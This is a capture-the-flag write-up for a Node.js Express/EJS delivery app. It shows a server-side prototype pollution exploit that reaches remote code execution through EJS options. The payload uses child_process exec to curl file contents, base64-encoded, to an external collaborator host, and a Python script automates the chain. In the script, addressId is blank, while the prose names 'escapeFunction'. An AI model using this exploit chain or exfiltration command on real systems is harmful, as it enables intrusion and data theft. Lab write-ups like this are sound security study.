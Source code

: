 
## Fastest Delivery Service Writeup

- **Category:** Web
- **Points:** 270
- **Difficulty:** Hard

## Challenge Description

No time for description, I had some orders to deliver : D 
Note: The code provided is without jailing, please note that when writing exploits.

## Challenge Code

```js
const express = require('express');
const bodyParser = require('body-parser');
const session = require('express-session');
const crypto = require("crypto");

const app = express();
const PORT = 3000;

// In-memory data storage
let users = {};
let orders = {};
let addresses = {};

// Inserting admin user
users['admin'] = { password: crypto.randomBytes(16).toString('hex'), orders: [], address: '' };

// Middleware
app.use(bodyParser.urlencoded({ extended: false }));
app.set('view engine', 'ejs');
app.use(session({
    secret: crypto.randomBytes(16).toString('hex'),
    resave: false,
    saveUninitialized: true
}));

// Routes
app.get('/', (req, res) => {
    res.render('index', { user: req.session.user });
});
app.get('/login', (req, res) => {
    res.render('login');
});

app.post('/login', (req, res) => {
    const { username, password } = req.body;
    const user = users[username];

    if (user && user.password === password) {
        req.session.user = { username };
        res.redirect('/');
    } else {
        res.send('Invalid credentials. <a href="/login">Try again</a>.');
    }
});

app.get('/logout', (req, res) => {
    req.session.destroy();
    res.redirect('/');
});

app.get('/register', (req, res) => {
    res.render('register');
});

app.post('/register', (req, res) => {
    const { username, password } = req.body;

    if (Object.prototype.hasOwnProperty.call(users, username)) {
        res.send('Username already exists. <a href="/register">Try a different username</a>.');
    } else {
        users[username] = { password, orders: [], address: '' };
        req.session.user = { username };
        res.redirect(`/address`);
    }
});

app.get('/address', (req, res) => {
    const { user } = req.session;
    if (user && users[user.username]) {
        res.render('address', { username: user.username });
    } else {
        res.redirect('/register');
    }
});

app.post('/address', (req, res) => {
    const { user } = req.session;
    const { addressId, Fulladdress } = req.body;

    if (user && users[user.username]) {
        addresses[user.username][addressId] = Fulladdress;
        users[user.username].address = addressId;
        res.redirect('/login');
    } else {
        res.redirect('/register');
    }
});



app.get('/order', (req, res) => {
    if (req.session.user) {
        res.render('order');
    } else {
        res.redirect('/login');
    }
});

app.post('/order', (req, res) => {
    if (req.session.user) {
        const { item, quantity } = req.body;
        const orderId = `order-${Date.now()}`;
        orders[orderId] = { item, quantity, username: req.session.user.username };
        users[req.session.user.username].orders.push(orderId);
        res.redirect('/');
    } else {
        res.redirect('/login');
    }
});

app.get('/admin', (req, res) => {
    if (req.session.user && req.session.user.username === 'admin') {
        const allOrders = Object.keys(orders).map(orderId => ({
            ...orders[orderId],
            orderId
        }));
        res.render('admin', { orders: allOrders });
    } else {
        res.redirect('/');
    }
});


// Start server
app.listen(PORT, '0.0.0.0', () => {
    console.log(`Server is running on http://localhost:${PORT}`);
});
```

## Analysis

After analyzing the code, I found that the flag is stored on the server in `/tmp/flag_{random_string}.txt` (according to the Dockerfile). Therefore, we need to get Remote Code Execution (RCE) to retrieve the flag. Upon further examination, I discovered a Server-Side Prototype Pollution vulnerability in the address addition function:
```js
app.post('/address', (req, res) => {
    const { user } = req.session;
    const { addressId, Fulladdress } = req.body;

    if (user && users[user.username]) {
        addresses[user.username][addressId] = Fulladdress;
        users[user.username].address = addressId;
        res.redirect('/login');
    } else {
        res.redirect('/register');
    }
});
```

Here, `addresses[user.username][addressId] = Fulladdress;` accepts two parameters from the request: addressId and Fulladdress. To exploit this Server-Side Prototype Pollution (SSPP), we need to control the user.username from the session. Since the application uses the ejs engine, we can achieve RCE if we can control `user.username`.

## Exploitation

I found that I can control user.username by registering a new user with the username `__proto__`. We can then add an address with addressId: `escapeFunction` and Fulladdress: `JSON.stringify; process.mainModule.require('child_process').exec('curl "http://id_here.oastify.com/$(cat /tmp/*.txt | base64 -w 0)"')`.

Next, add another new address with addressId: `client` and Fulladdress: `true`.

Finally, access the index `http://id_here.playat.flagyard.com/` or any page, and notice that the command has been executed, allowing us to retrieve the flag via Burp Collaborator.

Due to server restrictions that revoke sessions in less than 3 seconds, the exploit is automated using a script that registers a new user, logs in, and exploits the SSPP.

## Exploitation Script

```python
import requests

base_url = "http://ad8a40dc28e9f70f83bf8.playat.flagyard.com"
register_url = f"{base_url}/register"
address_url = f"{base_url}/address"

register_data = {
    "username": "__proto__",
    "password": "12345"
}

address_data1 = {
    "addressId": "  ",
    "Fulladdress": "JSON.stringify; process.mainModule.require('child_process').exec('curl \"http://id_here.oastify.com/$(cat /tmp/*.txt | base64 -w 0)\"')"
}

address_data2 = {
    "addressId": "client",
    "Fulladdress": "true"
}

sess = requests.Session()
register_response = sess.post(register_url, data=register_data)
print(f"Registration response: {register_response.status_code}")

address_response = sess.post(address_url, data=address_data1)
print(f"address_response 1 response: {address_response.status_code}")

address_response = sess.post(address_url, data=address_data2)
print(f"address_response 2 response: {address_response.status_code}")

sess.get(base_url)
```

## Flag

BHFlagY{76076bd96da5a2e24bd52ea1be660fe4}

